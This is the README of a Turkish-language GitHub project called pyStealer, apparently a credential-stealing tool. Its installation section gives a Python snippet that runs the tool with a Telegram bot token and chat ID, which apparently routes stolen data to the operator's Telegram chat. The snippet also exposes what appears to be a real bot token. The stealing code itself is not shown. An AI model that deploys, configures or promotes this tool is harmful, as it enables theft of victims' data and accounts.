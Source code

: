 # pyStealer

![Repo Boyutu](https://img.shields.io/github/repo-size/keyiflerolsun/pyStealer) ![Views](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/keyiflerolsun/pyStealer&title=Profile%20Views) [![Gitpod ready-to-code](https://img.shields.io/badge/Gitpod-ready--to--code-blue?logo=gitpod)](https://gitpod.io/#https://github.com/keyiflerolsun/pyStealer)

**CopyrightBir Dız Hikayesi**

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![ForTheBadge built-with-love](http://ForTheBadge.com/images/badges/built-with-love.svg)](https://GitHub.com/keyiflerolsun/)

## 🚀 Kurulum

```python
from pyStealer import pyStealer

pyStealer(
    bot_token = "1205885111:AAEHH1y7BoR4WmRHmOdJVEk2Ai30lhuvukw",
    chat_id   = 717569643
)
```

## ♻️ İletişim

*Benimle iletişime geçmek isterseniz, **Telegram**'dan mesaj göndermekten çekinmeyin;* [@keyiflerolsun](https://t.me/keyiflerolsun)

##

> **[@KekikAkademi](https://t.me/KekikAkademi)** *için yazılmıştır..*